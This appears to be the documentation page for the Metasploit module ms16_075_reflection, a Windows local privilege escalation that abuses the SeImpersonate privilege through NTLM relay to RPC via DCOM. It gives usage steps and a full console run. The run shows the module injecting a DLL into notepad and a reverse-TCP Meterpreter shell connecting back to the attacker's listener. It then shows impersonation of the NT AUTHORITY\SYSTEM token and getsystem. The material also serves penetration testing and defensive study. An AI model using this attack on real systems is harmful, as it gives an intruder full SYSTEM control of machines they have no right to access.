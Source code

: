 ## Introduction
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.
## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenarios
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312 [*] Launching notepad to 
host the exploit... [+] Process 3564 launched. [*] Reflectively 
injecting the exploit DLL into 3564... [*] Injecting exploit into 
3564... [*] Exploit injected. Injecting payload into 3564... [*] Payload 
injected. Executing exploit... [+] Exploit finished, wait for (hopefully 
privileged) payload execution to complete. [*] Sending stage (206403 
bytes) to -snip- [*] Meterpreter session 49 opened (-snip-:3312 -> 
-snip-:55306) at 2018-08-03 01:54:18 -0400 meterpreter > load incognito 
Loading extension incognito...Success. meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM' [-] Warning: Not currently running as SYSTEM, not 
all tokens will be available
             Call rev2self if primary process token is SYSTEM [-] No 
delegation token available [+] Successfully impersonated user NT 
AUTHORITY\SYSTEM meterpreter > getsystem -t 1 ...got system via 
technique 1 (Named Pipe Impersonation (In Memory/Admin)). meterpreter > 
```
